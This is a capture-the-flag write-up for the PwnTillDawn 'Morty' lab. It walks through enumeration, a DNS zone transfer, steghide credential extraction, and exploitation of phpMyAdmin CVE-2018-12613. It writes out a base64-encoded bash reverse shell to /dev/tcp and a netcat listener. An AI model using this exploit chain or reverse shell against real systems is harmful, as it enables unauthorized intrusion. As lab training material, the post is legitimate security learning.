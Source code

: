 ```yaml
---
title: "PwnTillDawn - Morty"
author: Nasrallah
description: ""
date: 2025-14-17 07:00:00 +0000
categories : [PwnTillDawn]
tags: [pwntilldawn, linux, medium, steganography, cve, rce]
img_path: /assets/img/pwntilldawn/morty
image:
    path: morty.png
---
```


<div align="center"> <script src="https://www.hackthebox.eu/badge/565048"></script> </div>

---

[Morty](https://online.pwntilldawn.com/Target/Show/) from [PwnTillDawn](https://online.pwntilldawn.com/) is a challenge that involves using steganography to extract hidden files from images, followed by exploiting a remote code execution (RCE) vulnerability to gain a foothold.

## **Enumeration**

### nmap

We start an Nmap scan using the following command: `sudo nmap -sC -sV -T4 {target_IP}`.

- -sC: run all the default scripts.

- -sV: Find the version of services running on the target.

- -T4: Aggressive scan to provide faster results.

```terminal
Nmap scan report for 10.150.150.57
Host is up (0.15s latency).
Not shown: 997 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 e8:60:09:66:aa:1f:e8:76:d8:84:16:18:1c:e4:ee:32 (RSA)
|   256 92:09:d3:0e:f9:47:48:03:9f:32:9f:0f:17:87:c2:a4 (ECDSA)
|_  256 1d:d1:b3:2b:24:dc:c2:8a:d7:ca:44:39:24:c3:af:3d (ED25519)
53/tcp open  domain  ISC BIND 9.16.1 (Ubuntu Linux)
| dns-nsid: 
|_  bind.version: 9.16.1-Ubuntu
80/tcp open  http    Apache httpd 2.4.41
|_http-server-header: Apache/2.4.41 (Ubuntu)
| http-ls: Volume /
| SIZE  TIME              FILENAME
| 147   2020-06-10 11:25  note.html
|_
|_http-title: Index of /
Service Info: Host: 127.0.1.1; OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

We found three open ports, first is 22 running SSH, 53 is DNS and finally 80 is an apache web server.

### Web

Let's browse to the website.

![webiste](1.png)

We found `note.html`, clicking on it gives us the following message.

```text
Morty,
if you read this: I've already configured your domain 'mortysserver.com' on this server, don't bother me with it anymore!!
-Rick 
```

We discovered the domain `mortysserver.com` that we need to add to our `/etc/hosts` file. We can do that using the following command.

```terminal
echo '10.150.150.57 mortysserver.com' | tee -a /etc/hosts
```

Now let's navigate to the domain.

![domain](2.png)

The site load an image of rick and morty with the text `Is this a password`, and we also notice the `Fl4sk#!` text in the image, could it be the password they are talking about? I'll make a note of that and continue

#### DNS

Since we have a DNS server and a domain let's see if we can find any other information.

Let's do a zone transfer using the following command.

```bash
dig axfr mortysserver.com @10.150.150.57 
```

```terminal
; <<>> DiG 9.18.33-1~deb12u2-Debian <<>> axfr mortysserver.com @10.150.150.57
;; global options: +cmd
mortysserver.com.       900     IN      SOA     10.150.150.57. email.mortysserver.com. 1 900 900 604800 900
mortysserver.com.       900     IN      NS      10.150.150.57.
rickscontrolpanel.mortysserver.com. 900 IN A    10.150.150.57
mortysserver.com.       900     IN      SOA     10.150.150.57. email.mortysserver.com. 1 900 900 604800 900
;; Query time: 93 msec
;; SERVER: 10.150.150.57#53(10.150.150.57) (TCP)
;; WHEN: Thu Apr 17 08:50:34 +01 2025
;; XFR size: 4 records (messages 1, bytes 212)
```

We discovered the subdomain `rickscontrolpanel.mortysserver.com`, let's add it to /etc/hosts and browse to it.

![phpmyadmin](3.png)

We found the login page of `phpmyadmin`, I tried couple default credentials as web as the `Fl4sk#!` password we found but nothing worked.

#### Steganography

Looking back at the first domain, we see that the password is part of the image, here I guessed the image might be hiding something.

I downloaded the image using the following command.

```bash
wget http://mortysserver.com/screen.jpeg
```

First I'll use `exiftool` to check if there is any interesting metadata.

```terminal
└──╼[★]$ exiftool screen.jpeg
ExifTool Version Number         : 12.57
File Name                       : screen.jpeg
Directory                       : .
File Size                       : 204 kB
File Modification Date/Time     : 2025:04:16 23:10:39+01:00
File Access Date/Time           : 2025:04:16 23:10:39+01:00
File Inode Change Date/Time     : 2025:04:16 23:11:07+01:00
File Permissions                : -rw-r--r--
File Type                       : JPEG
File Type Extension             : jpg
MIME Type                       : image/jpeg
JFIF Version                    : 1.01
Resolution Unit                 : inches
X Resolution                    : 72
Y Resolution                    : 72
Image Width                     : 1256
Image Height                    : 628
Encoding Process                : Baseline DCT, Huffman coding
Bits Per Sample                 : 8
Color Components                : 3
Y Cb Cr Sub Sampling            : YCbCr4:4:4 (1 1)
Image Size                      : 1256x628
Megapixels                      : 0.789
```

Nothing really.

We'll move to steghide which is a tool that can help us extract any embedded files inside the image.

```terminal
┌──[10.66.66.230]─[sirius💀parrot]-[~/ctf/ptd/morty]
└──╼[★]$ steghide extract -sf screen.jpeg
Enter passphrase: Fl4sk#!
wrote extracted data to "keytotheuniverse.txt".
                                                                                                                                                                                              
┌──[10.66.66.230]─[sirius💀parrot]-[~/ctf/ptd/morty]
└──╼[★]$ cat keytotheuniverse.txt 
rick:WubbaLubbaDubDub1!
```

We got prompt for a password and I submitted the one we found `Fl4sk#!` and this managed to give us a file that holds some credentials.

Now back to `phpmyadmin` let's login with the newly found username/password.

![loggedin](4.png)

## **Foothold**

After loggin in we see the version of phpmyadmin running is `4.8.1`, a quick search on google we find an RCE [CVE-2018-12613](https://nvd.nist.gov/vuln/detail/cve-2018-12613).

The exploit I'll be using can be found at <https://www.exploit-db.com/exploits/50457>

```terminal
[★]$ python exploit.py rickscontrolpanel.mortysserver.com 80 / rick 'WubbaLubbaDubDub1!' id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

We got command execution, now let's get a shell.

I'll use the following bash rev shell and encode it with base64.

```bash
echo 'bash -i >& /dev/tcp/10.66.66.230/9001 0>&1' | base64
YmFzaCAtaSA+JiAvZGV2L3RjcC8xMC42Ni42Ni4yMzAvOTAwMSAwPiYxCg==
```

I'll setup a netcat listener and run the exploit again.

```bash
python exploit.py rickscontrolpanel.mortysserver.com 80 / rick 'WubbaLubbaDubDub1!' 'echo YmFzaCAtaSA+JiAvZGV2L3RjcC8xMC42Ni42Ni4yMzAvOTAwMSAwPiYxCg==|base64 -d|bash'
```

I used echo to pass the encoded revshell to base64 -d which would decode it, then pipe it to bash to have it executed.

Now if we check our listener we will find the shell.

```terminal
[★]$ nc -lvnp 9001                                             
listening on [any] 9001 ...
connect to [10.66.66.230] from (UNKNOWN) [10.150.150.57] 43504
bash: cannot set terminal process group (1119): Inappropriate ioctl for device
bash: no job control in this shell
www-data@morty:/var/www/html/rickscontrolpanel/public_html/phpmyadmin$ id
id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
www-data@morty:/var/www/html/rickscontrolpanel/public_html/phpmyadmin$
```

Here the challenge ends and we are not required to do any privilege escalation unfortunately :(.

## **References**

<https://nvd.nist.gov/vuln/detail/cve-2018-12613>

<https://www.exploit-db.com/exploits/50457>

---

Thank you for taking the time to read my write-up, I hope you have learned something from this. If you have any questions or comments, please feel free to reach out to me. See you in the next hack :).
